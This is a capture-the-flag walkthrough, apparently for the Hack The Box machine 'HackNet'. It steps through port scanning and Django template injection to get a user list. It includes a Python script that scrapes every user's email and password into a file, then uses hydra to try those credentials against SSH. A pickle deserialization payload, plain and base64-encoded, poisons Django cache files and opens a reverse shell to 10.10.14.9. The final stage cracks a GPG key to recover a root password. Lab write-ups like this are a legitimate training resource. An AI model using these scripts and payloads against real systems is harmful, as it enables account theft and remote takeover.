```
Scope:
10.10.11.85
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- --min-rate=5000 -Pn -T5 -vvvv hacknet.htb

PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ8BFa2rPKTgVLDq1GN85n/cGWndJ63dTBCsAS6v3n8j85AwatuF1UE+C95eEdeMPbZ1t26HrjltEg2Dj+1A2DM=
|   256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFOSA3zBloIJP6JRvvREkPtPv013BYN+NNzn3kcJj0cH
80/tcp    open     http    syn-ack     nginx 1.22.1
|_http-title: HackNet - social network for hackers
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: B89198D9BEDA866B6ADC1D0CD9ECAEB6
|_http-server-header: nginx/1.22.1
```

## 80/TCP - HTTP



I went ahead and registered a new account:




I started looking around in the **Search** tab where I found that some users had private profiles:



And some didn't:



We can test out the *like* as well as the *comment* functionality:



Apparently we need to add people first before we can comment:



Inside *caido* I viewed the `/likes` route where I found that this showed all the profile pictures of the people that like the post:



I can also clearly see their username inside the *title* tag:



### SSTI

:::note
Since the usernames are shown inside the title tag I can attempt **SSTI** by using the `{{ users }}` variable in order to dump all the usernames.
:::

Now I went ahead and tried testing out the following




This time around the app dumped the complete `QuerySet` which appears to be all users who liked this post.

Moving on from here I would like to find out what the `SocialUser` object consists of. For this I'll use the following:

```jinja2
{{ users.values }}
```



This time around it dumps the following variables:



```
id
email
username
password
picture
about
contact_requests
unread_messages
is_public
is_hidden
two_fa
```

Having found this info we can start automating the next steps in order to quickly dump only the necessary information about all users.

```python
import re, html, requests

U = "http://hacknet.htb"
H = {
    "Cookie": "csrftoken=pWsK8Xea5pzMvqUDjABzeW1dhif4nS8R; sessionid=a70tgjtj5w59pwst7y1n7n2dz5ziqv7s", # Change these variables
    "User-Agent": "Mozilla/5.0"
}

out = set()

for i in range(1, 31):
    requests.get(f"{U}/like/{i}", headers=H)
    r = requests.get(f"{U}/likes/{i}", headers=H).text

    imgs = re.findall(r'title="([^"]+)"', r)
    if not imgs:
        continue

    q = html.unescape(imgs[-1])

    if "<QuerySet" not in q:
        requests.get(f"{U}/like/{i}", headers=H)
        r = requests.get(f"{U}/likes/{i}", headers=H).text
        imgs = re.findall(r'title="([^"]+)"', r)
        if not imgs:
            continue
        q = html.unescape(imgs[-1])

    for e, p in zip(
        re.findall(r"'email': '([^']*)'", q),
        re.findall(r"'password': '([^']*)'", q)
    ):
        out.add(f"{e.split('@')[0]}:{p}")

with open("creds.txt", "w") as f:
    for line in sorted(out):
        f.write(line + "\n")

print("\n===== * Found Users * =====\n")
print("\n".join(sorted(out)))
print("\n[+] Saved to creds.txt")
```



## 22/TCP - SSH
### hydra

We can now attempt a brute force using the combination file that our script created:

```bash
hydra -C creds.txt ssh://hacknet.htb
```



# Foothold
## Shell as mikey

Using the correct credentials I logged in:



### user.txt

It was here I could snatch the user flag right away:



# Lateral Movement
## Django Cache Deserialization attack

Accordingly I went on to enumerate the system, where I started off with the web root:





Inside the `views.py` file I found strong evidence that the target could be vulnerable to a **Django Cache Deserialization attack**.



I then found out that the `django_cache` directory is owned by *sandy*.



I can write the following poc in order to get myself a reverse shell as *sandy*:

```python
import pickle
import base64

# Exploit object
class Exploit:
    def __reduce__(self):
        import os
        return (os.system, (f'bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1"',),)

payload = base64.b64encode(pickle.dumps(Exploit()))
print(payload)
```



After heading over to `/explore` a new set of django cache files are created:





Since I can't simply overwrite the files I'll have to get creative:



Using the following regex however we can overwrite the files and make them executable:

```bash
for i in $(ls); do rm -f $i; echo 'gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFiYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzIDA+JjEilIWUUpQu' | base64 -d > $i; chmod +x $i; done
```



## Shell as sandy

Now when we refresh the web page again the exploit fires and we get a reverse shell:


I headed over to the home directory and started enumerating



Inside the `.gnupg` directory some private keys were found:



# Privilege Escalation
## gnupg keys

We can easily decrypt it as follows:

```bash
cp -r .gnupg/ /tmp/gnupg
chmod -R 700 /tmp/gnupg/
gpg --homedir /tmp/gnupg/ --list-secret-keys
```



I will then download over the `armored_key.asc` key to decrypt it using `john`.





We get an instant result:



```
sweetheart
```

Next up I will use the following:

```bash
gpg --import armored_key.asc
gpg --output backup02.sql --decrypt /var/www/HackNet/backups/backup02.sql.gpg 
```







Now we can view the contents of the file.



While scrolling through the backup we find an interesting find:



```
h4ck3rs4re3veRywh3re99
```

## Logging in as root



### root.txt



